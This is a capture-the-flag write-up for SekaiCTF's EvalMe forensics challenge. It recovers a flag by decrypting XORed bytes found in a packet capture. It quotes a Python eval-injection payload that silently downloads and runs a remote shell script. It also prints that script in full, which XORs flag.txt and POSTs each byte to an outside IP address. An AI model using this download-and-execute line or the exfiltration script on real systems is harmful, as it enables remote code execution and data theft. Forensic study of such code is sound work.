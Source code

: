 # WriteUp for EvalMe - Forensics - SekaiCTF
### CTF Problem Creator: Guesslemonger

### Problem
I was trying a beginner CTF challenge and successfully solved it. But it didn't give me the flag. Luckily I have this network capture. Can you investigate? It came attached with a `capture.pcapng`.

### Challenge Description
Connecting to the `chals.sekai.team` server required the user to solve 100 simple math problems under a given time. This was solved using the `evalMe.py` script.

Following its solve, there was a curl command given at the end:
```python
b'__import__("subprocess").check_output("(curl -sL https://shorturl.at/fgjvU -o extract.sh && chmod +x extract.sh && bash extract.sh && rm -f extract.sh)>/dev/null 2>&1||true",shell=True)\r#1 + 2
```

### Extract.sh
Downloading the extract.sh to our VM (`curl -sL https://shorturl.at/fgjvU -o extract.sh`), I get the following script:
```
#!/bin/bash

FLAG=$(cat flag.txt)

KEY='s3k@1_v3ry_w0w'

# Credit: https://gist.github.com/kaloprominat/8b30cda1c163038e587cee3106547a46
Asc() { printf '%d' "'$1"; }

XOREncrypt(){
    local key="$1" DataIn="$2"
    local ptr DataOut val1 val2 val3

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```

### XOR Encryption
This script reads the content of `flag.txt`, encrypts it using XOR encryption with a predefined key, and then sends the encrypted data, byte by byte, to a remote server using cURL. The server URL and endpoint seem to be `http://35.196.65.151:30899/`, and the data is likely being sent in a structured JSON format as part of the POST request.

### pcap Analysis
This is where the pcap file comes in. It contains the data sent via that POST command. So, filtering by: `ip.dst ==35.196.65.151 && http.request.method == POST`, I get 51 packets that contain the bytes that were sent as seen below:


[![alt text]([https://github.com/triciadang/CTF/SekaiCTF/evalMe/evalMeScreenshot.jpg?raw=true])](https://github.com/triciadang/CTF/blob/main/SekaiCTF/evalMe/evalMeScreenshot.jpg)

I exported all of the bytes into a txt file using Wireshark.

### Decryption of the Data
I then created a script that reversed the encryption for each byte:

```
#!/bin/bash
KEY='s3k@1_v3ry_w0w'

Asc() {
    printf '%d' "'$1"
}

XORDecrypt() {
    local key="$1" DataIn="$2"
    local bytes=($DataIn)

    for (( i = 0; i < ${#bytes[@]}; i++ )); do
        val3=$(printf '%d' "0x${bytes[i]}")

        # Adjusted key indexing for both uppercase and lowercase characters
        val2=$( Asc "${key:$(( i % ${#key} )):1}" )

        val1=$(( val3 ^ val2 ))

        DataOut+=$(printf '\\x%02x' "$val1")
    done

    echo -ne "$DataOut"
}

EncryptedData=$(<encrypted.txt)
DecryptedData=$(XORDecrypt "$KEY" "$EncryptedData")

echo -ne "$DecryptedData"
```
Running it against the exported bytes, I retrieved the flag: `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`
